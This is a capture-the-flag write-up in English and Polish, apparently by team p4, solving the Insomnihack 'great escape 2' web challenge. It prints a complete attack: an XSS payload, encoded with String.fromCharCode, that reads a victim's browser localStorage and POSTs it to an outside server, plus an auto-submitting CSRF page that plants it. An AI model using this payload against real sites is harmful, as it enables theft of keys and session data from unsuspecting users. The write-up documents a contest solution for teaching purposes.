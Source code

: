 # the great escape 2 (web 200)

###ENG
[PL](#pl-version)

We start this task in the place where we finished part 1.
We have web address for `ssc.teaser.insomnihack.ch` and we have an email `rogue@ssc.teaser.insomnihack.ch` where we can send links to be visited by our victim.
What we want to extract now is the private RSA key stored in the target local storage.

For this purpose we need some XSS, so we can extract the key via javascript.

First XSS we found where browsing through user files via REST API at `https://ssc.teaser.insomnihack.ch/api/files.php?action=list` but this proved to be useless since the target was logged-out and also we could not upload any files for him because the credentials were changed, compared to what was available in pcap.

But we figured that maybe there is a similar vulnerability in a different REST endpoint, and in fact there was one, in the current user endpoint at `https://ssc.teaser.insomnihack.ch/api/user.php?action=getUser`.

The vuln in both cases was that this page was rendered as HTML and not as JSON, and therefore username with HTML tags would get them rendered on this page.
On top of that registering new user with POST request would actually redirect to this page automatically!

So we had to get the target to enter our webpage, where we can perform CSRF request registering new user on `ssc` website, and place javascript stealing the local storage contents in the username.

There are some limitations to what we can pass as parameters here so we had to encode the payload via:

```python
real = '''
<script>
var data = ''
for (var key in localStorage){
	data += localStorage.getItem(key)
}
var http = new XMLHttpRequest();
http.open("POST", "https://xss.p4.team/index.php", true);
http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
http.send("data=" + data);
</script>
'''
payload = "<img src=/ onerror=javascript:document.write(String.fromCharCode({}));>".format(','.join([str(ord(c)) for c in real]))
```

And the whole resulting attack page was:

```html
<html>
    <form id="1234" action="https://ssc.teaser.insomnihack.ch/api/user.php" method="post">
    <input name="action" value="login" ></input>
<input name="name" value="<img src=/ onerror=javascript:document.write(String.fromCharCode(10,32,32,32,32,60,115,99,114,105,112,116,62,10,32,32,32,32,118,97,114,32,100,97,116,97,32,61,32,39,39,10,32,32,32,32,102,111,114,32,40,118,97,114,32,107,101,121,32,105,110,32,108,111,99,97,108,83,116,111,114,97,103,101,41,123,10,32,32,32,32,32,32,32,32,100,97,116,97,32,43,61,32,108,111,99,97,108,83,116,111,114,97,103,101,46,103,101,116,73,116,101,109,40,107,101,121,41,10,32,32,32,32,125,10,32,32,32,32,118,97,114,32,104,116,116,112,32,61,32,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,40,41,59,10,32,32,32,32,104,116,116,112,46,111,112,101,110,40,34,80,79,83,84,34,44,32,34,104,116,116,112,115,58,47,47,120,115,115,46,112,52,46,116,101,97,109,47,105,110,100,101,120,46,112,104,112,34,44,32,116,114,117,101,41,59,10,32,32,32,32,104,116,116,112,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,116,121,112,101,34,44,32,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,59,10,32,32,32,32,104,116,116,112,46,115,101,110,100,40,34,100,97,116,97,61,34,32,43,32,100,97,116,97,41,59,10,32,32,32,32,60,47,115,99,114,105,112,116,62,10,32,32,32,32));>">
        <input name="password" value="aa">
    </form>
</html>

<script type="text/javascript" src="https://ajax.googleapis.com/ajax/libs/jquery/1.6.1/jquery.min.js"></script>
<script type="text/javascript">
  $(document).ready(function() {
    window.document.forms[0].submit();
  });
</script>
```

Once the target got on this webpage he would register a user with our javascript payload, get redirected to result page with script executed and the local storage contents would get sent to our server.
This way we extracted the RSA private key to decode binary for stage 3 and the flag `INS{IhideMyVulnsWithCrypto}`

###PL version

Zaczynamy tam gdzie zakończylismy analizę części 1.
Mamy adres strony `ssc.teaser.insomnihack.ch` oraz mail `rogue@ssc.teaser.insomnihack.ch` gdzie możemy wysyłać linki do odwiedzenia przez naszą ofiarę.
Chcemy teraz wyciągnąć prywatny klucz RSA z local storage przeglądarki ofiary.

Do tego potrzeba nam podatności XSS, żeby wyciągnąć dane za pomocą javascriptu.

Pierwszy XSS jaki znaleźliśmy znajdował się w listingu plików za pomocą REST API pod `https://ssc.teaser.insomnihack.ch/api/files.php?action=list` ale to okazało się bezużyteczne, bo ofiara była wylogowana oraz nie mogliśmy dodać żadnych plików dla ofiary bo login i hasło uległy zmianie w porównaniu do tych z pcapa.

Ale uznaliśmy, że może jest drugi podobny błąd w innym endpoincie REST i faktycznie był kolejny podczas wyświetlania aktualnie zalogowanego użytkownika pod `https://ssc.teaser.insomnihack.ch/api/user.php?action=getUser`.

Podatność polegała w obu sytuacjach na tym, że strona wynikowa była renderowana jako HTML a nie jako JSON, więc jeśli login zawierałby jakieś tagi HTML to te zostałyby wyrenderowane na stronie.
Ponaddto rejestracja nowego użytkownika żądaniem POST automatycznie przenosiła nas na tą stronę z wynikiem logowania.

Musieliśmy teraz podstawić ofierze naszą stronę, na której za pomocą żądania CSRF zarejestrowalibyśmy nowego użytkownika w serwisie `ssc` a w jego loginie umieścilibyśmy javascript kradnący zawartość local storage.

Były pewne ograniczenia na to co można było przekazać jako parametry więc payload był kodowany przez:

```python
real = '''
<script>
var data = ''
for (var key in localStorage){
	data += localStorage.getItem(key)
}
var http = new XMLHttpRequest();
http.open("POST", "https://xss.p4.team/index.php", true);
http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
http.send("data=" + data);
</script>
'''
payload = "<img src=/ onerror=javascript:document.write(String.fromCharCode({}));>".format(','.join([str(ord(c)) for c in real]))
```

A cała utworzona strona ataku:

```html
<html>
    <form id="1234" action="https://ssc.teaser.insomnihack.ch/api/user.php" method="post">
    <input name="action" value="login" ></input>
<input name="name" value="<img src=/ onerror=javascript:document.write(String.fromCharCode(10,32,32,32,32,60,115,99,114,105,112,116,62,10,32,32,32,32,118,97,114,32,100,97,116,97,32,61,32,39,39,10,32,32,32,32,102,111,114,32,40,118,97,114,32,107,101,121,32,105,110,32,108,111,99,97,108,83,116,111,114,97,103,101,41,123,10,32,32,32,32,32,32,32,32,100,97,116,97,32,43,61,32,108,111,99,97,108,83,116,111,114,97,103,101,46,103,101,116,73,116,101,109,40,107,101,121,41,10,32,32,32,32,125,10,32,32,32,32,118,97,114,32,104,116,116,112,32,61,32,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,40,41,59,10,32,32,32,32,104,116,116,112,46,111,112,101,110,40,34,80,79,83,84,34,44,32,34,104,116,116,112,115,58,47,47,120,115,115,46,112,52,46,116,101,97,109,47,105,110,100,101,120,46,112,104,112,34,44,32,116,114,117,101,41,59,10,32,32,32,32,104,116,116,112,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,116,121,112,101,34,44,32,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,59,10,32,32,32,32,104,116,116,112,46,115,101,110,100,40,34,100,97,116,97,61,34,32,43,32,100,97,116,97,41,59,10,32,32,32,32,60,47,115,99,114,105,112,116,62,10,32,32,32,32));>">
        <input name="password" value="aa">
    </form>
</html>

<script type="text/javascript" src="https://ajax.googleapis.com/ajax/libs/jquery/1.6.1/jquery.min.js"></script>
<script type="text/javascript">
  $(document).ready(function() {
    window.document.forms[0].submit();
  });
</script>
```

Kiedy cel wszedł na stronę, zarejestrował użytkownika z javascriptem w loginie, został przekierowany na stronę wyników, skrypt się wykonał i na nasz serwer wysłana została zawartość local storage.
W ten sposób uzyskaliśmy klucz prywatny RSA do odszyfrowania binarki dla poziomu 3 oraz flagę `INS{IhideMyVulnsWithCrypto}`
